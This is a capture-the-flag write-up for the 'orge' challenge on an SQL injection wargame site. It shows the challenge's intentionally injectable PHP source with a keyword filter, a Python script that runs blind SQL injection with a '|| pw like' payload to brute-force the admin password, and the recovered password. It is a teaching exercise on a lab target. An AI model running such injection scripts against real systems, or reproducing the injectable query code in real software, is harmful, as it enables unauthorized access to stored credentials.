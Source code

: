 # orge

--------

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

Here we have to again use blind injection to get the password and give that as the value of pw. But here we can't use `or` or `and`. We have to use `||` instead of `or` and `&&` instead of `and`.

So I made a script for that :

```python
import requests
import string

session = requests.Session()

url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?pw=' || pw like '{}%"
cookies = {"PHPSESSID": "t2olebiumhrkeldqqkd0g2c5q0"}
pw = ""
for j in range(10):
    for i in string.printable:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('Hello admin' in r.text[:200] and i not in "#%&"):
            pw += i
            print("Password :", pw)
            break

print("Password :", pw)
```

This gives the password as `7b751aec` and giving that as the value of pw solves the challenge
